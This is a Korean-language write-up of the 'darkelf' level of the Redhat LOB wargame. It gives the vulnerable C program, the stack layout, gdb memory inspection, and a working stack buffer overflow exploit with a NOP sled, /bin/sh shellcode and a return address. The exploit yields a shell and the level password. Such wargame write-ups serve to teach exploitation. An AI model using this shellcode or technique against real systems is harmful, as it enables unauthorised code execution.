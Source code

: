 ============================================================================================================
[redhat-lob] (6) darkelf
============================================================================================================


.. graphviz::

    digraph foo {
        a -> b -> c -> d -> e;

        a [shape=box, label="argv[1]"];
        b [shape=box, color=lightblue, label="strcpy"];
        c [shape=box, label="Buffer Overflow"];
        d [shape=box, label="RET"];
        e [shape=box, label="argv[1] address"];
    }


|

Source Code
============================================================================================================

.. code-block:: c

    #include <stdio.h>
    #include <stdlib.h>

    extern char **environ;

    main(int argc, char *argv[])
    {
        char buffer[40];
        int i;

        if(argc < 2){
            printf("argv error\n");
            exit(0);
        }

        // egghunter
        for(i=0; environ[i]; i++)
            memset(environ[i], 0, strlen(environ[i]));

        if(argv[1][47] != '\xbf')
        {
            printf("stack is still your friend.\n");
            exit(0);
        }

        // check the length of argument
        if(strlen(argv[1]) > 48){
            printf("argument is too long!\n");
            exit(0);
        }

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);

        // buffer hunter
        memset(buffer, 0, 40);
    }


|

Vulnerabliity Vector
============================================================================================================

스택 메모리 공간에 다음과 같이 들어가게 된다.

.. code-block:: console

    ================
    LOW     
    ----------------
    Buffer  (40byte)
    SFP     (4byte)
    RET     (4byte)  <- strcpy overflow
    argc    (4byte)  <- 0x00000002
    argv[0] (4byte)  <- argv[0] 주소
    argv[1] (4byte)  <- argv[1] 주소
    ----------------
    HIGH    
    ================


|

Buffer Overflow
============================================================================================================


Overflow condition 

- environ을 초기화하여 환경 변수 사용를 통한 쉘코드 삽입이 불가능하다.
- argv[1]의 47번째 문자열이 "\\xbf"이어야 함
- argv[1]의 길이가 47이하 이어야 함


.. code-block:: console

    ※ 시작시 bash2 명령을 입력하고 bash2 쉘 상태에서 진행
    $ bash2
    $ ./darkelf `python -c 'print "a"*47'`

    stack is still your friend.

    $ ./darkelf `python -c 'print "a"*47+"\xbf"'`

    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa▒
    Segmentation fault


|

exploit
============================================================================================================

argv[1]이 저장되는 주소 확인
------------------------------------------------------------------------------------------------------------

앞의 조건에 argv[1][47]값이 "\\xbf"인지 확인하기 때문에, gdb를 이용하여 argv[1]이 저장되는 주소(buffer)를 찾는다.

.. code-block:: console

    (gdb) b *main
    Breakpoint 1 at 0x8048500

    (gdb) r `python -c 'print "a"*47+"\xbf"'`
    Starting program: /home/wolfman/darkelf2 `python -c 'print "a"*47+"\xbf"'`
    /bin/bash: /home/goblin/.bashrc: Permission denied

    Breakpoint 1, 0x8048500 in main ()

    (gdb) stepi
    0x8048501 in main ()

    (gdb) i reg $esp
    esp            0xbffffad8       -1073743144

    (gdb) i reg $ebp
    ebp            0xbffffaf8       -1073743112

    (gdb) x/100x $esp

    ==========================================================================
    0xbffffad8:     0xbffffaf8      0x400309cb      0x00000002      0xbffffb24
    0xbffffae8:     0xbffffb30      0x40013868      0x00000002      0x08048450
    0xbffffaf8:     0x00000000      0x08048471      0x08048500      0x00000002
    0xbffffb08:     0xbffffb24      0x08048390      0x0804864c      0x4000ae60
    0xbffffb18:     0xbffffb1c      0x40013e90      0x00000002      0xbffffc1a
    0xbffffb28:     0xbffffc31      0x00000000      0xbffffc62      0xbffffc84
    0xbffffb38:     0xbffffc8e      0xbffffc9c      0xbffffcbb      0xbffffccb
    0xbffffb48:     0xbffffce4      0xbffffd00      0xbffffd1f      0xbffffd2a
    0xbffffb58:     0xbffffd38      0xbffffd7a      0xbffffd8d      0xbffffda2
    0xbffffb68:     0xbffffdb2      0xbffffdbf      0xbffffddd      0xbffffde8
    0xbffffb78:     0xbffffdf9      0xbffffe0b      0xbffffe1a      0xbffffe22
    0xbffffb88:     0x00000000      0x00000003      0x08048034      0x00000004
    0xbffffb98:     0x00000020      0x00000005      0x00000006      0x00000006
    0xbffffba8:     0x00001000      0x00000007      0x40000000      0x00000008
    0xbffffbb8:     0x00000000      0x00000009      0x08048450      0x0000000b
    0xbffffbc8:     0x000001f9      0x0000000c      0x000001f9      0x0000000d
    0xbffffbd8:     0x000001f9      0x0000000e      0x000001f9      0x00000010
    0xbffffbe8:     0x0fabfbff      0x0000000f      0xbffffc15      0x00000000
    0xbffffbf8:     0x00000000      0x00000000      0x00000000      0x00000000
    0xbffffc08:     0x00000000      0x00000000      0x00000000      0x38366900
    0xbffffc18:     0x682f0036      0x2f656d6f      0x666c6f77      0x2f6e616d
    0xbffffc28:     0x6b726164      0x32666c65      0x61616100      0x61616161
                                                          ^               ^
    0xbffffc38:     0x61616161      0x61616161      0x61616161      0x61616161
                          ^               ^               ^ argv[1] = 0xbffffc41
    0xbffffc48:     0x61616161      0x61616161      0x61616161      0x61616161
    0xbffffc58:     0x61616161      0x61616161      0x454c00bf      0x504f5353
    ==========================================================================

|

RET 주소를 argv[1] 주소로 변경하여 공격 진행
------------------------------------------------------------------------------------------------------------

.. code-block:: console

    ================
    LOW     
    ----------------
    Buffer  (40byte) <- "\x90"*19 + shellcode
    SFP     (4byte)  <- shellcode
    RET     (4byte)  <- argv[1] address
    argc    (4byte)  <- 0x00000002
    argv[0] (4byte)  <- argv[0] 주소
    argv[1] (4byte)  <- argv[1] 주소
    ----------------
    HIGH    
    ================

|

오버플로우시 RET 주소를 argv[1] 주소로 변경하여 해당 쉘코드가 실행되도록 한다. buffer의 최초 주소값을 확인하여 4바이트씩 증가하면서 주소를 변경하면서 공격을 진행하면 성공시킬 수 있다.

nop (19 byte) + shellcode (25 byte) + argv[1] address

.. code-block:: console

    $ ./darkelf `python -c 'print "\x90"*19 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80" + "\x41\xfc\xff\xbf"'`
    ▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒1▒Ph//shh/bin▒▒PS▒▒°
                                           ̀A▒▒▒

    bash$ whoami
    darkelf
    bash$ my-pass
    euid = 506
    kernel crashed

